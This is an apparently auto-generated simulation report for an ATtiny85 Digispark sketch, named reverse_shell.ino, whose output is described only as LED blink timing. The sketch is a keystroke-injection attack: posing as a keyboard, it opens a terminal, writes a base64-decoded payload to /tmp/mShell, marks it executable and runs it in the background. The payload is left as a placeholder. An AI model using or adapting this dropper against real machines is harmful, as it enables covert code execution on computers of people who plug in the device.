
A sketch run on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking.

Above: at 3.56 s.
Timing chart, 0 to 6.2 s (numbered marks = the images above):


Measured:
- by itself, PB1: alternates HIGH for 0.20 s and LOW for 0.30 s

The sketch:

reverse_shell.ino
```cpp
#include "DigiKeyboard.h"

void setup() {
pinMode(1, OUTPUT);
delay(200);
digitalWrite(1, HIGH);
DigiKeyboard.sendKeyStroke(KEY_DELETE);
delay(200);

DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT);
delay(300);

DigiKeyboard.print("terminal");
delay(500);

DigiKeyboard.sendKeyStroke(KEY_ENTER,0);
delay(1000);

// Send our payload
DigiKeyboard.print("echo");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.print("ENCODED PAYLOAD HERE | base64 --decode &gt; /tmp/mShell");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
delay(500);

DigiKeyboard.println("chmod 755 /tmp/mShell");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
delay(200);
DigiKeyboard.println("/tmp/mShell &");
DigiKeyboard.sendKeyStroke(KEY_ENTER);

delay(100);
digitalWrite(1, LOW);

}

void loop() {
digitalWrite(1, HIGH);
delay(200);

digitalWrite(1, LOW);
delay(300);
}
```
